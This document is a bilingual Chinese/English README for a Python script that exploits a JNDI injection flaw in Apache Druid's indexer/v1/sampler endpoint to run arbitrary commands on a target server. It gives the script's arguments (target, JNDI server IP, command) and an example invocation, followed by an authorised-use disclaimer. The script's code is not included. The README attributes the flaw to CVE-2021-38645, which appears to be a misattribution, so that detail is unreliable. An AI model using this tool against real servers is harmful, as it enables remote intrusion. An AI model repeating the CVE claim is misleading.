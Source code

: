 # Apache Druid JNDI Vulnerable
## Druid JNDI 注入漏洞利用脚本
本项目是一个利用 Druid JNDI 注入漏洞的 Python 脚本。该漏洞存在于 Druid 的 indexer/v1/sampler 接口中，攻击者可以通过构造恶意请求，在目标服务器上执行任意命令。

This project is a Python script that exploits the Druid JNDI injection vulnerability. The vulnerability exists in the indexer/v1/sampler interface of Druid, allowing an attacker to execute arbitrary commands on the target server by constructing a malicious request.

## 使用方法
使用该脚本需要提供以下参数：

-t 或 --target：目标服务器的 IP 地址或主机名；
-j 或 --jndi-ip：JNDI 服务器的 IP 地址；
-c 或 --cmd：要执行的命令。
## 示例：

```bash
python druid.py -t 192.168.0.1 -j 192.168.0.2 -c "touch /tmp/success"
```
使用该脚本需要先安装 Python 3 和 requests 库。

## 注意事项
该脚本仅用于授权的渗透测试或教育目的，禁止用于非法用途；
在使用该脚本时，请务必遵守当地法律法规和道德准则，自行承担使用该脚本所造成的风险和后果；
该脚本可能会对目标服务器造成不可逆的损害，请谨慎使用。

Druid JNDI Injection Exploit Script
This project is a Python script that exploits the Druid JNDI injection vulnerability. The vulnerability exists in the indexer/v1/sampler interface of Druid, allowing an attacker to execute arbitrary commands on the target server by constructing a malicious request. The CVE number for this vulnerability is CVE-2021-38645.

## Usage
To use this script, you need to provide the following parameters:

-t or --target: the IP address or hostname of the target server;
-j or --jndi-ip: the IP address of the JNDI server;
-c or --cmd: the command to execute.
## Example:

```bash
python druid.py -t 192.168.0.1 -j 192.168.0.2 -c "touch /tmp/success"
```
To use this script, you need to install Python 3 and the requests library first.

## Disclaimer
This script is for authorized penetration testing or educational purposes only. It is strictly prohibited to use it for illegal purposes;
When using this script, please comply with local laws and regulations, and ethical standards. You are solely responsible for the risks and consequences caused by using this script;This script may cause irreversible damage to the target server. Use it at your own risk.
